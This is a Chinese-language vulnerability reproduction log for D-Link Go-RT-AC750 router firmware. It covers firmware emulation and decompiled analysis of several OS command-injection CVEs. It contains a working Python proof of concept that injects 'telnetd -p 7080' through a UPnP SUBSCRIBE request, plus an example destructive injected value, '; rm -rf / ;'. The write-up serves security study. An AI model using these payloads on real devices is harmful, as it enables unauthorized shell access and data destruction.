# D-Link Go-RT-AC750

参考链接:[D-Link Go-RT-AC750命令注入漏洞复现（学习记录)](https://bbs.kanxue.com/thread-278294.htm#msg_header_h3_9)

## 仿真模拟

[固件下载地址](https://bbs.kanxue.com/attach-download-316269-08a1222a3a5e42de154139c9cec3ccf8@IQVEcciOwgCNCL4EcDiFhw_3D_3D-406480.htm)
解包，提取出文件系统  

```bash
    binwalk -Me GORTAC750_A1_FW_v101b03.bin
```

使用FirmAE仿真  

```bash
sudo ./run.sh -d d-link '/home/iot/Go-RT-AC750/GORTAC750_A1_FW_v101b03.bin' 
```

  
扫描端口发现一个未知端口49152  
  
在shell中查看/var/run/httpd.conf可知这是一个upnp服务端口  
  

## 固件分析

### CVE-2023-34800

[CVE-2023-34800](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-34800)  
查看cve官网的表述可知此cve是通过genacgi_main函数实现命令注入漏洞。其属于cwe-78：Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')  
查找genacgi_main函数发现其在文件htdocs/cgibin中，将其放进Ghidra中查看genacgi_main函数。  
    
   

查看genacgi_main函数发现其检索REQUEST_URI并查找'?'字符，如果URI包含"?service="，则检查请求方法:  
&#8195; 如果方法是"SUBSCRIBE"，则调用FUN_0040e700函数，并处理订阅请求。  
&#8195; 如果方法是"UNSUBSCRIBE"，则调用FUN_0040eac4函数，处理取消订阅请求。  

查看FUN_0040eac4函数  
  
阅读代码：

```c
undefined4 FUN_0040eac4(undefined4 param_1) {
    char *pcVar1;
    char acStack_218[512];
    char *local_18;
  
    // 获取环境变量"SERVER_ID"
    pcVar1 = getenv("SERVER_ID");
    if ((((pcVar1 == (char *)0x0) || (pcVar1 = getenv("HTTP_SID"), pcVar1 == (char *)0x0)) ||
        (pcVar1 = getenv("HTTP_CALLBACK"), pcVar1 != (char *)0x0)) ||
        (pcVar1 = getenv("HTTP_NT"), pcVar1 != (char *)0x0)) {
        // 如果任何一个关键环境变量不存在或某些不期望的变量存在，则返回400错误
        cgibin_print_http_status(400, "", "");
    } else {
        // 获取所需的环境变量
        local_18 = getenv("SERVER_ID");
        pcVar1 = getenv("HTTP_SID");
        // 构造字符串，包含一些关键值和取消订阅的操作信息
        sprintf(acStack_218, "%s\nINF_UID=%s\nSERVICE=%s\nMETHOD=UNSUBSCRIBE\nSID=%s\n",
                "/htdocs/upnp/run.NOTIFY.php", local_18, param_1, pcVar1);
        // 调用一个函数执行操作
        xmldbc_ephp(0, 0, acStack_218, _stdout);
    }
    return 0;
}
```

代码中xmldbc_ephp函数将拼接的subscribe_string 通过/var/run/xmldb_sock传入到/htdocs/upnp/run.NOTIFY.php文件中进行处理并返回处理结果到服务器。  
于是查看/htdocs/upnp/run.NOTIFY.php文件
  
其中调用GENA_subscribe_new函数、GENA_subscribe_sid函数以及GENA_unsubscribe函数
  
  
  
其中GENA_subscribe_new函数调用 GENA_notify_init函数，此函数包含在shell中执行rm命令，并且没有对命令进行检查，最终导致命令注入漏洞。  

漏洞利用：  
结合UPnP文档和/var/run/httpd.conf文件内容 可构造的subscriber的请求头如下：

```bash
SUBSCRIBE /gena.cgi?service=;telnetd -p 7080 HTTP/1.1
Host: 192.168.0.1:49152
Callback: <http://192.168.0.1/>
NT: upnp:event
Timeout: Second-infinite
```

POC代码如下：

```python
from socket import *
from os import *
from time import *
 
request = b"SUBSCRIBE /gena.cgi?service=;telnetd -p 7080 HTTP/1.1\r\n"
request += b"Host: 192.168.0.1:49152\r\n"
request += b"Callback: <http://192.168.0.1/>\r\n"
request += b"NT: upnp:event\r\n"
request += b"Timeout: Second-infinite\r\n\r\n"
  
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
  
sleep(10)
system('telnet 192.168.0.1 7080')
```

漏洞利用成功后，即可通过telnetd连接设备，然后执行任意命令。  
  

### CVE-2023-26822

[cve链接](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26822)  
D-Link Go-RT-AC750 revA_v101b03 被发现通过 soapcgi.main 上的服务参数包含命令注入漏洞。  
其属于CWE-78 : Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')  

漏洞分析：
查找soapcgi.main函数发现其存在于htdocs/cgibin文件中

逆向后查找soapcgi.main函数

```c
undefined4 soapcgi_main(void) {
    // 初始化，调用FUN_0040e0a4，如果返回值小于0，直接返回0
    if (FUN_0040e0a4() < 0) {
        return 0;
    }

    // 获取环境变量
    char *contentType = getenv("CONTENT_TYPE");  // 内容类型
    char *requestUri = getenv("REQUEST_URI");  // 请求URI
    char *soapAction = getenv("HTTP_SOAPACTION");  // SOAP动作
    char *requestMethod = getenv("REQUEST_METHOD");  // 请求方法

    // 检查内容类型是否为"text/xml"，如果不是，返回415错误
    if (contentType == NULL || strncasecmp(contentType, "text/xml", 8) != 0) {
        cgibin_print_http_status(415, NULL, NULL);  // 打印HTTP状态415（Unsupported Media Type）
        return 0xffffffff;  // 返回错误码
    }

    // 确认REQUEST_URI和HTTP_SOAPACTION不为空，并且REQUEST_URI包含"?service="
    if (requestUri && soapAction && strstr(requestUri, "?service=")) {
        size_t actionLen = strlen(soapAction);
        // 如果SOAP动作字符串以双引号结尾，去掉双引号
        if (soapAction[actionLen - 1] == '\"') {
            soapAction[actionLen - 1] = '\0';
        }

        // 找到SOAP动作字符串中的'#'字符
        char *hashPos = strchr(soapAction + (soapAction[0] == '\"'), '#');
        if (hashPos) {
            *hashPos = '\0';  // 将'#'替换为字符串结束符
            hashPos++;  // 指向动作名称部分
            
            // 检查请求方法是否为"POST"
            if (strcasecmp(requestMethod, "POST") == 0) {
                // 构建存储临时文件的路径
                char tempPath[256];
                sprintf(tempPath, "/runtime/services/upnp/pid%d", getpid());
                
                // 解析请求数据
                cgibin_parse_request(FUN_0040df74, 0, 0x10000);
                
                // 获取服务器ID
                char *serverId = getenv("SERVER_ID");
                char phpCommand[1024];
                // 构建执行PHP脚本的命令
                sprintf(phpCommand, "/htdocs/upnp/ACTION.%s.php\nACTION_NODEBASE=%s\nINF_UID=%s\nSERVICE_TYPE=%s\nACTION_NAME=%s \nSHELL_FILE=/var/run/%s_%d.sh", 
                        requestUri + 9, tempPath, serverId, soapAction + (soapAction[0] == '\"'), hashPos, requestUri + 9, getpid());
                
                // 执行PHP脚本
                if (xmldbc_ephp_wb(0, 0, phpCommand, tempPath, 0x1000) == 0) {
                    // 填充HTTP内容长度并打印响应
                    if (cgibin_fill_http_content_len(tempPath, 0x1000) == 0) {
                        printf("%s", tempPath);
                    }

                    // 创建并运行清理临时文件的shell脚本
                    char shellPath[256];
                    sprintf(shellPath, "/var/run/%s_%d.sh", requestUri + 9, getpid());
                    FILE *stream = fopen(shellPath, "a+");
                    if (stream) {
                        fprintf(stream, "rm -f %s/%s_%d.sh", "/var/run", requestUri + 9, getpid());
                        fclose(stream);

                        sprintf(shellPath, "sh /var/run/%s_%d.sh > /dev/console &", requestUri + 9, getpid());
                        system(shellPath);
                    }
                }
                // 删除临时数据
                xmldbc_del(0, 0, tempPath);
                // 调用清理函数
                FUN_0040e1c0(FUN_0040e0a4());
                return 0;
            } else {
                // 请求方法不是POST，返回400错误
                cgibin_print_http_status(400, "", "unsupported HTTP request");
                return 0xffffffff;
            }
        }
    }
    
    // 清理并返回错误码
    FUN_0040e1c0(FUN_0040e0a4());
    return 0xffffffff;
}
```

其中system函数调用了/bin/sh，因此可以利用命令注入漏洞执行任意命令。

```c
 // 创建并运行清理临时文件的shell脚本
char shellPath[256];
sprintf(shellPath, "/var/run/%s_%d.sh", requestUri + 9, getpid());
FILE *stream = fopen(shellPath, "a+");
if (stream) {
    fprintf(stream, "rm -f %s/%s_%d.sh", "/var/run", requestUri + 9, getpid());
    fclose(stream);
    sprintf(shellPath, "sh /var/run/%s_%d.sh > /dev/console &", requestUri + 9, getpid());
    system(shellPath);
}
```

### CVE-2022-37057

[cve链接](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-37057)  
D-Link Go-RT-AC750 GORTAC750_revA_v101b03 和 GO-RT-AC750_revB_FWv200b02 容易受到通过 cgibin 对ssdpcgi_main函数进行命令注入的攻击。  
cwe-78:  Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')  
漏洞分析：
查找ssdpcgi_main函数发现其存在于htdocs/cgibin文件中

  
其中调用lxmldbc_system函数，查看此函数发现其直接调用system函数，并且未进行任何输入过滤，导致任意命令执行漏洞。
  

### CVE-2022-37056

[cve链接](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-37056)  
D-Link GO-RT-AC750 GORTAC750_revA_v101b03 和 GO-RT-AC750_revB_FWv200b02 容易受到通过hnap_main进行命令注入  
cwe-78:  Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')  

漏洞分析：
查找hnap_main函数发现其存在于htdocs/cgibin文件中。查看函数发现其仍然使用system函数执行未经过过滤的命令。  


```c
sprintf(acStack_228, pcVar1, &DAT_00422c08, pcVar2);
system(acStack_228);
```

构建字符串：

```c
if (iVar6 == 0) {
    pcVar1 = "sh %s%s.sh > /dev/console";
} else {
    pcVar1 = "sh %s%s.sh > /dev/console &";
}
sprintf(acStack_228, pcVar1, &DAT_00422c08, pcVar2);
```

如果输入是恶意的比如构建输入是的pcVar2 = "; rm -rf / ;"  
则将会执行：

```bash
sh /some/path/; rm -rf / ;.sh > /dev/console
```

### CVE-2022-36523

[cve链接](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36523)  
D-Link Go-RT-AC750 GORTAC750_revA_v101b03 和 GO-RT-AC750_revB_FWv200b02 容易受到通过 /htdocs/upnpinc/gena.php 进行命令注入的攻击。  
cwe-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')  
此漏洞和/htdocs/upnpinc/gena.php文件有关。貌似和前面的CVE-2023-34800漏洞一样啊，还是执行rm -f shell_file命令删除shell_file文件，但shell_file可通过SUBSCRIBE传入的服务参数进行控制并且全程没有任何对服务参数的检查，从而可实现命令注入。  

难绷,cve2022的漏洞居然能留到2023一直不修改。  
